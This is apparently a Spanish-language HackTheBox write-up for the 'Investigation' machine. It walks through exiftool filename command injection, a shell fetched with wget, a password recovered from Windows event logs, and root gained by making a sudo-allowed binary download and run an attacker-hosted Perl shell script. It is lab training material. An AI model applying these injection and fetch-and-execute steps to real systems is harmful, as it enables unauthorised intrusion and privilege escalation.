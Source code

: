 ```yaml
---
title: Investigation
date: 2023-01-28 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [Exiftools, evtx, binary]     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Sat Jan 28 16:27:42 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.197
Nmap scan report for 10.10.11.197
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://eforenzics.htb/
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 28 16:27:53 2023 -- 1 IP address (1 host up) scanned in 11.03 seconds
```
En el puerto 80 nos encontramos una página donde podemos subir una imagen y por detrás esta usa exiftool para mostrarnos los metadatos de esta. Vemos que la versión es 12.27 que tiene una vulnerabilidad, más información se puede ver este [Link](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429 "link"), aquí menciona que añadiendo un | al final del nombre de la imagen se puede ejecutar comandos. Para esto nos apoyamos en burpsuite para cambiar el nombre de la imagen.

![imagen1](/assets/images/investigator/investigator1.png)

Para entablarnos una conexión nos compartimos un archivo bash en nuestra máquina y después con wget podemos descargarnos el archivo y ejecutarlo.

![imagen2](/assets/images/investigator/investigator2.png)

![imagen3](/assets/images/investigator/investigator3.png)

Dentro de la máquina nos ponermos a enumerar archivos para el usuario smorton y nos encontramos con el archivo `Windows Event Logs for Analysis.msg`.

```shell
www-data@investigation:/$ find -user smorton 2>/dev/null | grep -vE "proc|sys|run|dev"
./home/smorton
./usr/local/investigation/Windows Event Logs for Analysis.msg
```

Investigando un poco sobre la extensión, se menciona que es un archivo que puede ser abierto por Outlook Desktop de windows, por lo que procedo a pasar el archivo a la máquina windows. Igualmente se podría haber hecho con `thunderbird` o `evtx-linux`. Dentro del correo encontramos un archivo comprimido adjunto que es un archvo con logs de windows.

![imagen4](/assets/images/investigator/investigator4.png)

Dentro de estos logs en el id del evento 4625 se encontró un login fallido cuando el usuario smorton intentó logearse poniendo la contraseña como usuario.

![imagen5](/assets/images/investigator/investigator5.png)

Usamos esta contraseña para iniciar sesión por ssh. Dentro de la máquina con smorton tienen permisos de ejecutar `binary` como root, este binario no es común en linux, por lo que procedemos a traerlo a nuestra máquina por netcat.

```shell
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```
Abrimos el binario con ghidra para ver el código y su funcionalidad.

```c
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

![imagen6](/assets/images/investigator/investigator6.png)

Este binario lo que hace es:

1. La función comienza comprobando el valor del primer parámetro, param_1. Si no es igual a 3, el programa imprime "Saliendo". Si no es igual a 3, el programa imprime "Exiting... " y sale con el estado 0 utilizando la función exit(0).
2. Busca por getuid(), si el programa corre por root, entonces sigue, en todo caso se acaba el programa.
3. Compara la cadena en la dirección de memoria param_2 + 0x10 con la cadena "lDnxUysaQn", si es igual el programa sigue.
4. Se crea un archivo "lDnxUysaQn" en modo de escritura binario utilizando la función fopen, y asigna el puntero del fichero a la variable __stream.
5. Utiliza curl para buscar por la ruta ingresada en el segundo argumento y si el archivo se encuentra, entonces el programa construye una cadena "perl ./lDnxUysaQn"

Entonces finalmente ejecutamos el binario hosteando un archivo pearl con `exec("/bin/bash")` y tendríamos una shell con root.

```shell
smorton@investigation:~$ sudo  /usr/bin/binary http://10.10.14.6/shell.pl lDnxUysaQn
Running... 
# whoami
root
```
